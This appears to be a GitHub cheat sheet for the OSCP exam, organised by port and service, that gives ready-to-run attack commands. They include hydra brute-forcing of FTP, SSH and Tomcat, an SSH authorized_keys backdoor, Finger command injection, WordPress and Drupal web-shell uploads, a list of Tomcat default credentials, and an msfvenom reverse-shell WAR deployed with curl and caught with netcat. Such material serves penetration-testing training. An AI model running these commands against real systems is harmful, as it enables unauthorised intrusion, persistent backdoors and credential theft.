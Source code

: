 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:

```nmapAutomator.sh -H IP -t All```

2. autorecon:

```autorecon IP```

3. nmap:

```nmap -T4 -A -p- IP```


## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:

```ftp IP```
```ftp> USER anonymous```
```ftp> PASS ```

2. View of FTP content:
```ftp://IP```
3. Get files from FTP:
```PASSIVE```
```BINARY```
```get FILE```
4. Upload files to FTP:
```PASSIVE```
```BINARY```
```put FILE```
5. Brute force:
```hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV```
6. Vulnerability Scanning:
```nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP```

### 22 (SSH)
1. Brute Force:
```hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV```
2. Possible Exploit: CVE-2008-0166:
```searchsploit -m 5720```
3. Backdoor (might be worth it):
```
-> Attacker
ssh-keygen -f FILE
chmod 600 FILE
cat FILE.pub -> copy

-> Victim
echo FILE.pub >> PATH/.ssh/authorized_keys

-> Connect
ssh -i FILE USER@IP
```
4. Banner grab:
```ssh root@IP```

### 23 (Telnet)
1. Connect:
```telnet IP 23```

### 25 (SMTP)
1. Connect:
```nc IP 25```
2. User enumeration:
```VRFY USER```

### 43 (WHOIS)
1. Connection:
```whois -h IP -p PORT "domain.tld"```

### 53 (DNS)
1. Enumeration:
```dnsenum DOMAIN```
```dnsrecon -d DOMAIN```
```
nslookup
nslookup> server IP
nslookup> DOMAIN
```
2. Zone Transfer
```dnsrecon -d DOMAAIN -a```
```dig axfr DOMAIN @website```
3. DNS Brute force:
```https://github.com/blark/aiodnsbrute```

### 69 (TFTP)
1. Enumeration
```nmap -n -Pn -sU -p69 -sV --script tftp-enum IP```

### 79 (Finger)
1. User Enumeration
```finger IP```
```finger USER@IP```
2. Command execution:
```finger "|/bin/id@<IP>"```
```finger "|/bin/ls -a /<IP>"```

### 80 & 443 (HTTP):
1. Enumeration:
```done by automatic scripts```
2. Directory Fuzzing:
- GoBuster:
```gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20```
```gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx```
```gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl```
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
```trivial```
(Do not forget to change file formats and supply correct directory list like above)

**Wordpress**
_Enumeration_
```
\# Scan
wpscan --rua -e --url IP/URL
\# Brute force users/login
wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"
```
_Theme RCE_
```
Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
`
_Plugin RCE_
Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
**Drupal**
`droopescan scan -u IP/URL`
_User Enumeration_
`In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*
If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*
If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*
Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)
```
_Hidden Pages Enumeration_
```wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ```
_Panel RCE_
```
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
Go to Modules -> (Check) PHP Filter  -> Save configuration
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
```
**Joomla**
_Enumeration_
```joomscan -u URL```
```./joomlavs.rb --url URL -a -v```
**Tomcat**
_Default Credentials_
```
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```
_Brute Force_
```hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u```
_Panel RCE_
```
\# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

\# Upload payload
Tomcat6 :
wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

\# Listener
nc -nvlp PORT

\# Execute payload
curl http://IP:8080/shell/
```
